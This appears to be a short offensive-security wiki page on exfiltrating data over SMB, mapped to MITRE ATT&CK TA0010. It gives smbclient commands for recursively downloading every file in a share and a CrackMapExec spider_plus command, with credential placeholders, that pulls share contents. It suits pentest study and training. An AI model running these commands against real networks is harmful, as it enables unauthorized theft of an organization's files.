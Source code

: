 ```yaml
---
description: MITRE ATT&CK™ - Exfiltration - Tactic TA0010
---
```


# Over SMB

## Theory

SMB (Server Message Block) exfiltration refers to the unauthorized extraction or transfer of data from a compromised network or system using SMB protocols. Attackers can leverage SMB to transfer sensitive or valuable information from an organization's network to an external location.

## Practice

{% tabs %}
{% tab title="smbclient" %}
Tools like [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) can be used to recursively download a SMB share's content.

```bash
# In an smbclient interactive session
recurse ON
prompt OFF
mget *
```
{% endtab %}

{% tab title="CrackMapExec" %}
Tools like [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) can be used to recursively download a SMB share's content.

```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD -M spider_plus -o READ_ONLY=False
```

The previous command generates a json file with the list of accessible files in shares. We may use jq to parse this json output.

```bash
cat 10.10.10.111.json | jq '. | map_values(key)'
```
{% endtab %}
{% endtabs %}
